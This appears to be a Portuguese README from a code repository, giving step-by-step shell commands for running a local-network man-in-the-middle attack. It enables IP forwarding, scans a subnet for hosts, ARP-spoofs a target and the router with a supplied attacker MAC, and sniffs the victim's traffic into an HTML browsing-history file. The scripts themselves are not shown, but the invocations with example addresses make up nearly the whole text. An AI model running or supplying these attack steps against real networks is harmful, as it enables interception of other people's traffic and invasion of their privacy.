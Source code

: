 ## 1. **Habilitar o Encaminhamento de Pacotes**
```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

---

## 2. **Executar o Scan de Rede**
```bash
sudo python3 host_scanner.py <rede/máscara> <timeout_ms>
```
**Exemplo:**
```bash
sudo python3 host_scanner.py 192.168.1.0/24 1000
```

---

## 3. **Executar o ARP Spoofing**
```bash
sudo python3 arp_spoof.py <interface> <IP alvo> <IP roteador> <MAC do atacante>
```
**Exemplo:**
```bash
sudo python3 arp_spoof.py eth0 192.168.1.5 192.168.1.1 12:34:56:78:9A:BC
```

---

## 4. **Capturar o Tráfego**
```bash
sudo python3 traffic_sniffer.py <interface> <arquivo_saida.html>
```
**Exemplo:**
```bash
sudo python3 traffic_sniffer.py eth0 historico.html
```

---

## 5. **Desabilitar o Encaminhamento de Pacotes**
```bash
sudo sysctl -w net.ipv4.ip_forward=0
```
